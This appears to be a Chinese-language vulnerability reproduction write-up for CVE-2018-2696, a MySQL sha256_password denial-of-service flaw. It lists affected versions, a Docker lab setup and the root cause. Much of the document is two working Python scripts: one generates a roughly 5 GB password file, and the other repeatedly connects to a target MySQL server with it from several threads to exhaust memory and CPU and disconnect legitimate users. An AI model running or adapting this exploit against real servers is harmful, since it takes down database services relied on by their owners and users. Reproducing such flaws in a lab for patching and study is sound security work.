


# mysql远程拒绝服务漏洞（CVE-2018-2696）

## 受影响版本

Oracle MySQL密码认证子组件 (subcomponent: Server : Security : Privileges).
    mysql <= 5.6.38
    mysql <= 5.7.20

## 参考链接

https://www.oracle.com/security-alerts/cpujan2018verbose.html

## 漏洞评分

CVSS v3.0 Base Score 7.5

## 环境搭建

目录下启动`docker-compose up -d`

## 利用条件

mysql开启远程访问服务

## 漏洞细节


该漏洞源于MySQL sha256_password认证插件，该插件没有对认证密码的长度进行限制，而直接传给my_crypt_genhash()用SHA256对密码加密求哈希值。该计算过程需要大量的CPU计算，如果传递一个很长的密码时候，会导致CPU耗尽。而且该公式MySQL的实现中使用alloca()进行内存分配，无法对内存栈溢出保护，可能导致内存泄露、进程崩溃，从而可能实现代码执行。
根据猜测的服务器内存进行测试，这里虚拟机内存为4G，实际测试发现要接近5G效果比较好，略大一点绕过内存优化策略等方式使得内存溢出。

密码文本生成-pwd.py

```python
    # 虚拟机内存大小：4G
    size = 5 * 1024 * 1024 * 1024
    print("size is %s MB" % (size // (1024 * 1024)))

    with open('password.txt', 'w') as file:
        n = 0
        chunk_size = pow(10, 6)
        while n < size:
            password_chunk = 'a' * chunk_size
            file.write(password_chunk)  # 写入密码到文件
            n += chunk_size

```

模拟用户和利用脚本-poc.py

```python
    import mysql.connector
    import threading
    import time


    def connect_to_mysql(password, threadId):
        while True:
            try:
                # 创建数据库连接对象
                conn = mysql.connector.connect(
                    host="你的mysql服务器地址",
                    user="root",
                    password=password
                )
                # 检查连接状态
                if conn.is_connected():
                    print("线程%d已连接到数据库." % threadId)
                else:
                    print("线程%d未连接到数据库." % threadId)
                # 关闭连接
                conn.close()
            except mysql.connector.Error as err:
                print(f"线程{threadId}连接发生错误: {err}")
            # 可以选择在这里处理连接丢失的情况，比如重新连接
            # 或者记录错误信息以供进一步分析
            # 等待一段时间后再次检测
            time.sleep(5)  # 5秒钟后再次检测


    # 从文件中读取密码
    with open('password.txt', 'r') as file:
        password = file.readline().strip()  # 读取并去除首尾空白符

    print("成功载入payload.")

    # 创建两个线程并启动
    thread1 = threading.Thread(target=connect_to_mysql, args=(password, 1))
    thread2 = threading.Thread(target=connect_to_mysql, args=(password, 2))
    thread1.start()
    thread2.start()

    # 等待两个线程完成
    thread1.join()
    thread2.join()

    print("所有线程连接完成.")

```

可以发现正常用户被影响，断开连接。

